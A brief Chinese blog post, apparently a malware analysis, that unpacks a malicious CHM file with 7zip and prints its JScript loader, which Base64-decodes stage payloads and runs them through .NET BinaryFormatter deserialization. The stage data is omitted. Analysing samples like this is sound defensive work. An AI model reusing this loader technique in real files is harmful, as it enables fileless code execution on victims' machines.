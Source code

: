 ```yaml
---
title: chm样本分析
date: 2023-10-30 17:34:05
tags: 病毒分析
---
```


# chm样本分析

如果说上一篇文章是认真写的，那这一篇百分百属于，，摸鱼的内容了。

单纯的记录一下chm无文件攻击（吐槽 这样本是无文件转有文件攻击了X）如何分析吧

由于chm使用了 [LZX](https://en.wikipedia.org/wiki/LZX) 进行数据压缩，所以我们可以用7zip来看看里面都有什么（灵车

![](./../img/image-20231030174029125.png)

里面似乎有个html，打开后发现是js脚本。

![](./../img/image-20231030174130475.png)

```js
<script>
function Base64ToStream(b,l) {
	var enc = new ActiveXObject("System.Text.ASCII"+"Encoding");
	var length = enc.GetByteCount_2(b);
	var ba = enc.GetBytes_4(b);
	var transform = new ActiveXObject("System.Security.Cryptography.FromBase"+"64Transform");
	ba = transform.TransformFinalBlock(ba, 0, length);
	var ms = new ActiveXObject("System.IO.Memory"+"Stream");
	ms.Write(ba, 0, l);
	ms.Position = 0;
	return ms;
}
try {
	var shell = new ActiveXObject('WScript.Shell');
	ver = 'v4.0.30319';
	
	try {
		//throw 1;
		shell.RegRead('HKLM\\SOFTWARE\\Microsoft\\.NETFramework\\v4.0.30319\\');
	} catch(e) { 
		stage_1 = stage_3;
		stage_1_len = stage_3_len;
		ver = 'v2.0.50727';
	}
	//shell.Popup("", 0, ver, 64);
	shell.Environment('Process')('COMPLUS_Version') = ver;

	var ms_1 = Base64ToStream(stage_1, stage_1_len);
	var fmt_1 = new ActiveXObject('System.Runtime.Serialization.Formatters.Bi'+'nary.BinaryFormatter');
	fmt_1.Deserialize_2(ms_1);
} catch (e) {
	try{		
		var ms_2 = Base64ToStream(stage_2, stage_2_len);
		var fmt_2 = new ActiveXObject('System.Runtime.Serialization.Formatters.Bi'+'nary.BinaryFormatter');
		fmt_2.Deserialize_2(ms_2);
	}catch (e2){}
}
})();
</script>
```

剩下内容与[VBE样本分析](https://blog.lenxy.net/2023/10/30/Analysis-of-vbe-virus/)一致了，衍生物也是一样的。只不过白加黑我实在解不明白了，放弃挣扎。
